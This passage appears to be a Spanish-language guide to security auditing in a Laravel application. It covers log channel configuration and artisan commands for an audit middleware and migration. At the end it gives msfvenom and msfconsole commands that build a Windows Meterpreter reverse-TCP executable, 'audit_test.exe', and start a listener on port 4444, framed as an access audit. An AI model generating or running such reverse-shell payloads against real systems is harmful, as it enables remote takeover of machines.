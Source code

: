 
## 🔧 Configuración de Laravel

### 1. Configuración de Logs

**Archivo `config/logging.php`:**
```php
'channels' => [
    'audit' => [
        'driver' => 'syslog',
        'level' => 'info',
        'facility' => LOG_LOCAL0,
        'formatter' => 'json',
    ],
    
    'security' => [
        'driver' => 'daily',
        'path' => storage_path('logs/security.log'),
        'level' => 'warning',
        'days' => 30,
    ],
],
```

### 2. Middleware de Auditoría

**Crear Middleware:**
```bash
php artisan make:middleware AuditLogger
```

### 3. Migraciones para Auditoría

**Crear Migración:**
```bash
php artisan make:migration create_audit_logs_table
```

---

## 🚀 Uso de las Herramientas

### Escenario 1: Auditoría de Acceso No Autorizado

#### Paso 1: Preparar Meterpreter
```bash
# 1. Generar payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_AUDITORIA LPORT=4444 -f exe > audit_test.exe

# 2. Configurar listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST IP_AUDITORIA; set LPORT 4444; exploit"
```
